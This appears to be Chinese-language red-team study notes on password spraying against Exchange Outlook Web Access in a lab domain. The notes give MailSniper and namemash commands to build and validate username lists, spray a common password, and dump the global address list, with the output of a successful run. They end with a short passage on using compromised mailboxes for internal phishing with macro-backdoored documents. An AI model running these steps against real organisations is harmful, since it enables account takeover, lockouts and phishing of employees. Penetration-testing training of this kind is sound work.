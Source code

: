 # 密码喷洒（Password Spraying）

3个工具:

## [namemash.py](https://gist.github.com/superkojiman/11076951)
一个根据完整用户名名单得到用户名各种组合的python工具
```
/opt/namemash.py names.txt >> possible-usernames.txt
```


## [MailSniper](https://github.com/dafthack/MailSniper)

引入
```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

枚举NetBIOS name
```
Invoke-DomainHarvestOWA -ExchHostname 10.10.15.100
```

验证哪些名字是域里的有效用户名
```
Invoke-UsernameHarvestOWA -ExchHostname 10.10.15.100 -Domain CYBER -UserList .\possible-usernames.txt -OutFile valid.txt
```

对上面的有效用户名进行密码喷洒,密码：```Summer2021```
```
Invoke-PasswordSprayOWA -ExchHostname 10.10.15.100 -UserList .\valid.txt -Password Summer2021
```

注意：在现实渗透中，过多的喷洒尝试可能会暴露自己，以及导致用户被锁


使用MailSniper 下载全局地址列表
```
PS C:\> Get-GlobalAddressList -ExchHostname 10.10.15.100 -UserName CYBER\iyates -Password Summer2021 -OutFile gal.txt
[*] First trying to log directly into OWA to enumerate the Global Address List using FindPeople...
[*] This method requires PowerShell Version 3.0
[*] Using https://10.10.15.100/owa/auth.owa
[*] Logging into OWA...
[*] OWA Login appears to be successful.
[*] Retrieving OWA Canary...
[*] Successfully retrieved the X-OWA-CANARY cookie: ahhlRb0kZUKEg8YEo5ZZtQDYwqU8EdkIl7OJ7_ugwGfk56YCYe0ilgE2GKVxCNJTMpqknR3QJ_M.
[*] Retrieving AddressListId from GetPeopleFilters URL.
[*] Global Address List Id of b4477ba8-52b0-48bf-915e-d179db98788b was found.
[*] Now utilizing FindPeople to retrieve Global Address List
[*] Now cleaning up the list...
bfarmer@cyberbotic.io
iyates@cyberbotic.io
jadams@cyberbotic.io
jking@cyberbotic.io
nglover@cyberbotic.io
[*] A total of 5 email addresses were retrieved
[*] Email addresses have been written to gal.txt
```


## [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)


# 内部网络钓鱼

> 访问一个或多个内部邮箱开辟了一些可能性。我们可以搜索可能包含文档、用户名和密码等敏感信息的电子邮件；甚至代表受感染用户向员工发送电子邮件。我们可以发送我们自己制作的文件和/或链接，或者甚至下载已经在收件箱中的文档，将其后门（例如使用宏），然后将其发回给某人
